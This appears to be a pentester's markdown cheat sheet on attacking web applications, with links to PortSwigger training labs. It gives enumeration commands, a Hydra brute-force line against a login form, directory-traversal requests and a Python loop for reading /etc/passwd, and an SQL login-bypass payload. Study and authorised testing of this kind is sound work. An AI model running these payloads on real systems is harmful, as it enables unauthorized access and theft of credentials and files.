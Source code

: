 # Web Application Enumeration

Tools:
 - https://www.wappalyzer.com/ --> technology lookup
 - https://www.shodan.io/host/$TARGET --> technology lookup and server informations

Resources:
 - https://medium.com/api-center/api-bites-7373b2127ed1 --> API Path Conventions
 - https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d --> Fuzzing wordlist

``` bash
# Web Server Enumeration
nc $TARGET 80
telnet $TARGET 80
sudo nmap -p80,443 -sV $TARGET
sudo nmap -p80,443 -sS --script=http* $TARGET
sudo nmap -p80 --script=http-enum $TARGET
sudo nmap -p80 --script=http-enum --script-args http-enum.basepath="$PATH" $TARGET
```

Other tools:
 - whatweb
 - wafw00f

# Directory Enumeration

Resources:
 - https://medium.com/api-center/api-bites-7373b2127ed1 --> API path conventions
 - https://gist.github.com/yassineaboukir/8e12adefbd505ef704674ad6ad48743d --> API Fuzzing
 - https://3os.org/penetration-testing/cheatsheets/gobuster-cheatsheet/ --> GoBuster cheatsheet

Directory:
``` bash
curl https://$URL/robots.txt              # check robots file
curl https://$URL/security.txt            # check security file
curl https://$URL/.well-know/security.txt # check security file
gobuster dir -u {TARGET} -w /usr/share/wordlists/...
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -p pattern.txt # create a file "pattern.txt" and use the {GOBUSTER} placeholder: {GOBUSTER}/v1 {GOBUSTER}/v2
gobuster dir -u {TARGET} -w /usr/share/wordlists/... -x $EXT # search for extension
feroxbuster --url {TARGET} --depth 2 --wordlist /usr/share/wordlists/... --rate-limit REQUESTS_PER_SECOND # rate limit useful for Error 429: many requests
```

API:
``` bash
curl -i https://$URL/test/v1/item                                   # check API method
curl -G -d "param1=value1" $URL                                     # GET
curl -X PUT -d '{"test"}' -H "Content-Type: application/json" $URL  # PUT
curl -d '{"param1":"val1", "param2":"val2"}' -H "Content-Type: application/json" $URL # test API method
curl -d "param1=value1&param2=value2" -X POST $URL # default application/x-www-form-urlencoded
curl -d "param1=value1&param2=value2" -H "Content-Type: application/x-www-form-urlencoded" -X POST $URL # explicit application/x-www-form-urlencoded
curl -d "@data.txt" -X POST $URL # data file
```

# Access Control Bypass

## Edit User Role
Ex: https://portswigger.net/web-security/access-control/lab-user-role-can-be-modified-in-user-profile
 - From a valid user access try to edit some valid parameter to get the POST request
 - Add a parameter in the POST request (by BurpSuite Repeater)
 - Very the new role, es: access the admin panel

## Horizontal privilege escalation
Ex: https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect
 - Navigate the user's pages
 - Try to change page's parameter like userid, username, ...

## Insicure direct object reerences
Ex: https://portswigger.net/web-security/access-control/lab-insecure-direct-object-references
 - Check all static information: file path, image, ...
 - Try to find other static file (file name guessing)

## Bypass URL-based access controll
Ex: https://portswigger.net/web-security/access-control/lab-url-based-access-control-can-be-circumvented
 - If the application use X-Original-URL header:
  - Add the X-Original-URL header to the request --> X-Original-URL: /test
  - If the result is Not Found the application processing the request
  - Try to access to the admin path --> X-Original-URL: /admin
  - Use parameter by the GET request --> GET /?username=test

## Method-based access control
Ex: https://portswigger.net/web-security/access-control/lab-method-based-access-control-can-be-circumvented
 - Browse the admin method and test POST action
 - Try to use the same method with non-admin user (send the request to repeater, use the non-admin session cookie)
 - Use the func. "change request method" in BurpSuite to modify the request

## Referer-base access control
Ex: https://portswigger.net/web-security/access-control/lab-referer-based-access-control
 - Browse the admin method and test POST action
 - Use the same request of the admin user with non-admin session cookie

# Authentication Bypass

## 2FA Bypass (simple)
Ex: https://portswigger.net/web-security/authentication/multi-factor/lab-2fa-simple-bypass
 - Access by user+passwd and 4 digit code (by email)
 - Verify the page post-login and pre-digit

## Password Reset
Ex: https://portswigger.net/web-security/authentication/other-mechanisms/lab-password-reset-broken-logic
 - With a valid user try a password reset
 - Inspect the password reset request, check the authentication parameter (es: token)
 - try to:
  - remove the token or the token value
  - change the username / password to reset to modify other users credentials

## Brute Force
 - Burp Suite Cluster Bomb

 - Hydra Brute force
  - Create a user and password list

``` bash
hydra $URL http-form-post "/login:user=^USER^&pass=^PASS^:Invalid username or password." -L users.txt -P pass.txt -t 5 -w 60 -o output.txt
```

# Directory traversal

Sample:
``` bash
curl http://$DOMAIN/$PATH/../../.././etc/passwd
curl http://$DOMAIN/$PATH/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd  # url encoding "../"
```

Script:
``` python
# usege: python3 $scriptname http://1.2.3.4/path/for/app/ 10 /tmp/test.txt
import sys, subprocess

url = sys.argv[1] # URL target
max_iteration = int(sys.argv[2])+1
filetocheck = sys.argv[3]
elements = ['../', '%2e%2e/', '%2e%2e%2f', '..%2f', '..%c0%af'] # extend

for element in elements:
  for i in range(1, max_iteration):
    path = element*i
    curl_command = ["curl", "{0}{1}{2}".format(url, path, filetocheck)]
    res = subprocess.run(curl_command, capture_output=True, text=True)
    print("Check for {0}{1}{2}".format(url, path, filetocheck))
    print(res.stdout)
```

# Cross Site Scripting

Resources:
 - https://github.com/payloadbox/xss-payload-list --> Payload list

Search input field
``` bash
curl -i $URL | grep '<input'
```

Test for DOM XSS
 - Enable DOM Invader form BurpSuite browser
 - Go to Inspect / DOM Invader (tab)
  - clink on "Copy Canary"
  - paste in input field, go on
  - check the result in "DOM" panel

# SQL Injection

Bypass login, in login field:
``` sql
admin' --
```

In password field: some string if required or ' "

Query diff:
``` sql
SELECT * FROM users WHERE user = '$var1' AND pass = '$var2';
SELECT * FROM users WHERE user = 'admin' -- AND pass ...
```


